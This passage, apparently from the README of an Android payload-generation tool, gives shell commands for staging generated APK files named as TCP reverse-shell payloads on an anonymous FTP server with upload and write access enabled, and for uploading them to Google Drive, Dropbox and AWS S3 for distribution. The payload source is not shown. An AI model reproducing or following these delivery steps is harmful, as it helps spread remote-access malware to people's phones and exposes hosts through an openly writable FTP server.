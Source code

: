 ## 🔧 Method 5: FTP Server Setup

### **Start FTP Server**
```bash
# Install vsftpd
sudo apt install vsftpd

# Configure FTP
sudo nano /etc/vsftpd.conf

# Add these lines:
anonymous_enable=YES
local_enable=YES
write_enable=YES
anon_upload_enable=YES
anon_mkdir_write_enable=YES
anon_root=/home/ftp

# Create FTP directory
sudo mkdir -p /home/ftp/payloads
sudo cp output/*.apk /home/ftp/payloads/
sudo chmod 755 /home/ftp/payloads

# Start FTP service
sudo systemctl start vsftpd
sudo systemctl enable vsftpd
```

### **Access FTP Server**
```bash
# Connect via FTP client
ftp localhost

# Or from another machine
ftp 192.168.1.100

# Download files
get phantom_tcp_reverse_20250810_110000.apk
```

## 📧 Method 6: Email/Cloud Upload

### **Upload to Cloud Storage**
```bash
# Upload to Google Drive (using gdrive tool)
gdrive upload output/phantom_tcp_reverse_*.apk

# Upload to Dropbox (using dropbox-cli)
dropbox upload output/phantom_tcp_reverse_*.apk

# Upload to AWS S3
aws s3 cp output/phantom_tcp_reverse_*.apk s3://your-bucket/
```
